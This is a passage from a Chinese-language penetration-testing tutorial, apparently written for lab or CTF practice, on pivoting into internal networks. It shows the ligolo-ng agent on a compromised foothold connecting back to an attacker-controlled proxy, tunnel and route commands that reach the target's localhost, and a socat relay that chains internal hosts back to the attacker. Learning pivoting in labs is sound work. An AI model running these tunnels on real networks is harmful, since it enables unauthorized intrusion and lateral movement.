 此时会自动监听11601端口，我们通过各种手段将agent客户端上传到立足点靶机之后即可通过以下命令和proxy服务端建立连接

```bash
./agent  -connect 10.10.16.37:11601 -ignore-cert
```

![image-20250531232731612](https://raw.githubusercontent.com/Enchanter-W/Pics/master/image-20250531232731612.png)

此时攻击机收到session会话，然后可以通过`ifconfig`命令来看到靶机上有哪些网卡网段。

通过在攻击机执行以下命令，可以将我们需要访问的网段代理出来

```bash
[Agent : oscar190@eureka] » tunnel_start --tun ligolo    
INFO[1121] Starting tunnel to oscar190@eureka (005056b974b1) 
[Agent : oscar190@eureka] » add_route --name 'ligolo' --route '240.0.0.1/32'
INFO[1215] Route created.
```

上面的命令我指定网段是240.0.0.1/32，这是ligolo的一个特殊功能，用来代理靶机的本地ip[127.0.0.1]。这个网段是保留ip还没有被启用。

完成上面的内容后理论上我们就完全如同拥有和立足点相同的网络了。

###### 与socat协作

这个工具我是第一次用，可能以后会补充其他用法。

这个场景是你需要立足点机器当跳板机让内网靶机的ligolo-agent连接回攻击机时候，即内网靶机不出网但能联通立足点机器。

在立足点机器上执行

```bash
socat TCP-LISTEN:6666,fork,reuseaddr TCP:[攻击机ip]:6666
```

这时候在内网靶机上执行`ligolo-agent --connect [立足点机器ip]:[立足点机器socat监听端口]`

